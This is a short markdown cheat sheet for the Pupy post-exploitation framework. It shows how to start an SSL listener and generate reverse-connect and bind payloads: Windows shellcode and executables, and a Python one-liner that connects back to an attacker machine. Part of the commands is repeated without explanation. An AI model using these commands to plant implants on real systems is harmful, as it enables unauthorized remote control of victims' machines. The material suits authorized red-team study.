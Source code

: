 # Pupy
## Run the server
Once you have [correctly](https://github.com/n1nj4sec/pupy/wiki/Installation) installed pupy, you are ready to launch the server.
```
>> listen -a <transport> <port>
```

## Transport
-
```
>> listen -a ssl 8443
[+] Listen: ssl: 8443
```

-
```
>> gen -f <format> <launcher> -t <transport>
```

-
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport
```

-
```
>> gen -f client -O windows -A x64 connect --host ip:port -t transport
```

-
```
>> gen -f py bind --port port -t transport
```

-
```
>> gen -f py_oneliner connect --host ip:port -t transport
```

```
>> listen -a <transport> <port>
```

```
>> listen -a ssl 8443
[+] Listen: ssl: 8443
```


## Payloads Generation


### Generic Payload Generation

This command allows you to generate a payload with **customizable format**, launcher, and transport.

```
>> gen -f <format> <launcher> -t <transport>
```
### Windows Shellcode Payload
Generates a Windows shellcode payload that connects to the specified IP and port using a transport method.
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport
```
### Windows Executable Payload
Creates a Windows executable payload for **64-bit** architecture that connects back to the given host and port using the specified transport.
```
>> gen -f client -O windows -A x64 connect --host ip:port -t transport
```
### Python Bind Payload
Generates a **Python payload** that opens a listener on the target machine, binding to a specific port with the specified transport method.
```
>> gen -f py bind --port port -t transport
```
### Python One-liner Connect Payload
Creates a Python one-liner payload that connects back to the attacker machine at the specified IP and port using the chosen transport.

```
>> gen -f py_oneliner connect --host ip:port -t transport
```

